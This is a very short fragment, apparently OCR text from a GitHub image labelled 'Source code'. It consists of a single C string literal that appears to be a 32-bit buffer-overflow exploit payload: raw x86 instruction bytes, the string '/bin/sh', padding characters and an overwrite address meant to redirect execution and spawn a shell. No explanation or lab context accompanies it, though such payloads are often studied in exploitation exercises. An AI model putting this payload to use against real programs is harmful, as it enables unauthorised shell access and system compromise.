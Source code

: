 "\xC7\x04\x24\x18\xA0\x04\x08\xE8\x5C\xB0\xE6\xB7\xC9\xC3\x90\x90/bin/sh\0\0\0\0\0\0\0\0\0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x08\xA0\x04\x08"